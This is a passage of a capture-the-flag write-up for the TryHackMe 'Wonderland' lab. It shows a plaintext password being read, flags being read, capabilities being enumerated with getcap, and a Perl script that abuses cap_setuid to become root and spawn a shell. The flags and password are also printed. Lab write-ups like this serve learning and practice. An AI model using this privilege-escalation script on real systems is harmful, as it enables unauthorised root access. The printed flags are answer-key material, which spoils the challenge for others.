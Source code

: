 Inside the /home/hatter there is the following

```bash
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

We can ssh into it. This way we get the full hatter user. 

In the meantime i decided to check writeups to see if anyone had done anything differently and noticed that you can actually get the user flag from alice. Turns out you can move through the root directory, and so you can do the following:

```bash
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```
Sometimes me feel dumb.

After a bit of ennumeration i found the following 

```bash
hatter@wonderland:~/.gnupg/private-keys-v1.d$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

So made the following little script that executes setuid and executes a shell 

```perl
use strict;
use warnings;
use POSIX;

my $username = "root";
my $uid = 0;

if (defined $uid) {
    POSIX::setuid($uid);
    print "Changed effective UID to $username ($uid)\n";
    system("/bin/bash -i");
    # Now, the effective UID is changed, and you can perform operations as this user.
    # Example: Access files that this user has permission to access.
} else {
    die "User $username not found\n";
}
```

And now we get the flag 

```bash
root@wonderland:/home/alice# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```